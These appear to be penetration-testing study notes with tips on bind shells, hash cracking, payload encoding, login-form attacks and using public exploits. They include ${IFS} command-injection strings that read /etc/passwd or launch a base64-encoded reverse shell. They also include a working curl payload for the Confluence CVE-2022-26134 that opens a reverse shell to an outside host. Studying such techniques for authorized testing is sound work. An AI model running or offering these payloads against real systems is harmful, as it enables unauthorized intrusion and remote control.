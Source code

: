 #### Bind Shells

Be aware of this method of access, it is convenient. 

#### Crackstation.net

Instead of manual cracking with hashcat or JTR, you can put the hash into "https://crackstation.net" instead. According to S1REN (OffSec employee), it's akin to running the rockyou.txt wordlist with hashcat & JTR.

#### Note When Encoding Payload

Whenever encoding and decoding a reverse shell in base 64, remove the special characters like + and = because they often cause errors. Simply insert extra spaces where necessary. 

#### No Spaces in Payload Work-Around

You can replace the whitespaces by a variable that is a whitespace, either by creating it, or using '${IFS}'.

```bash
-o${IFS}ProxyCommand="cat /etc/passwd"${IFS}kanderson
-h;echo${IFS}-n${IFS}YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOC80NDMgICAwPiYxICAg|base64${IFS}-d|bash${IFS};#
```

```bash
{echo,-n,**base64 encoded reverse bash shell**}|{base64,-d}|bash
```

This can overcome rules that don’t allow for spaces. 

#### Login Forms

When you run into login forms, think SQLi, Code injection, error-message username enumeration, search default credentials, brute-forcing with hydra/wfuzz, search web for exploits, SSTIs, custom wordlists with cewl.

#### Once Logged In

Assess the functionality provided to us and see if we can abuse it.

Look for service versions (exploit-db), abusing file-upload vulnerability, user privileges may be able to be changed, code execution directly in a new post/page, look for modules, extensions & addons or create your own with backdoors, look for a downgrade attack on the target machine/cms, edit some pre-existing extension or functionality to plant executable code, look for interesting data, credentials

#### Using Public Exploits

It's important to at least psyeudo understand the payload that you are using, if nothing else, to make sure that it works on your end. For example, CVE-2022-26134 for Confluence uses the following payload:

```bash
curl -v http://192.168.235.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.213/1271%200%3E%261%27%29.start%28%29%22%29%7D/
```

